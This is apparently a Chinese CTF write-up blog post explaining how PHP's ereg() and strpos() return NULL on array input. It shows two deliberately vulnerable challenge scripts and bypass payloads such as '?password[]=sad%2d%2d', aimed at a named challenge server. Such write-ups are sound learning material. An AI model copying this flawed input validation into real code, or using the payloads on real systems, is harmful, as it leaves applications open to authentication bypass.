 # isset数组绕过






#### 1.数组返回NULL绕过

```php
<?php 

$flag = "flag";
if (isset ($_GET['password'])) {
	if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE) 
		echo 'You password must be alphanumeric'; 
	else if (strpos ($_GET['password'], '--') !== FALSE) 
		die('Flag: ' . $flag); 
	else 
		echo 'Invalid password';
}

?>
```



**php不能处理数组**

根据 `if (strpos ($_GET['password'], '--') !== FALSE)`

知道password一定有`'--'`。开始构造` %2d `但是过不了，根据题目暗示和php特性可以传一个数组绕过判断

```bash
http://123.206.87.240:9009/19.php?password[]=sad%2d%2d
```



> strpos() 函数查找字符串在另一字符串中第一次出现的位置。
>
> **注释：**strpos() 函数对大小写敏感。



> ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。



#### 2.

```php
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE) //①
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE) //②
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
```



**思路：**

`ereg()`只能处理字符串的，遇到数组做参数返回NULL，判断用的是 === ，其要求值与类型都要相同，而NULL跟FALSE类型是不同的,所以①判断if不成立，继续执行②，这时strpos函数遇到数组，也返回NULL，与FALSE类型不同，if条件成立，输出flag。
所以payload应该是`?ctf[]=任意字符`,甚至就是`?ctf[]=`











---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/isset%E6%95%B0%E7%BB%84%E7%BB%95%E8%BF%87/  

